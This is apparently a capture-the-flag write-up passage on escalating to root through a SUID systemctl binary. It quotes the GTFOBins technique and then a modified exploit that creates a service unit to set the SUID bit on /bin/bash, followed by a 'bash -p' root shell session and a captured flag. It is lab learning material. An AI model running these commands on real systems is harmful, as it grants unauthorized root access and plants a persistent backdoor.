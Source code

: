 - __systemd:__ Systemd is a software suite that provides fundamental building blocks for a Linux operating system. It includes the systemd “System and Service Manager”, an init system used to bootstrap user space and manage user processes. systemd aims to unify service configuration and behavior across Linux distributions.

```bash
# which systemctl
/bin/systemctl
```

__Note:__ *Systemctl is a systemd utility that is responsible for Controlling the systemd system and service manager. Systemd is a collection of system management daemons, utilities, and libraries which serves as a replacement of System V init daemon*

`systemctl`
**SUID**
If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

source: https://gtfobins.github.io/
```bash
sudo install -m =xs $(which systemctl) . # this can be skipped

TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"  
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF         # change this to systemctl path i.e., /bin/systemctl
./systemctl enable --now $TF # change this to systemctl path
```

- modified exploit to get root:

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash" #set suid bit for /bin/bash
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF

```
then:
```bash
$ bash -p
whoami
root
cd /root
ls
root.txt
cat root.txt    
a58ff8579f0a9270368d33a9966c7fd5
```
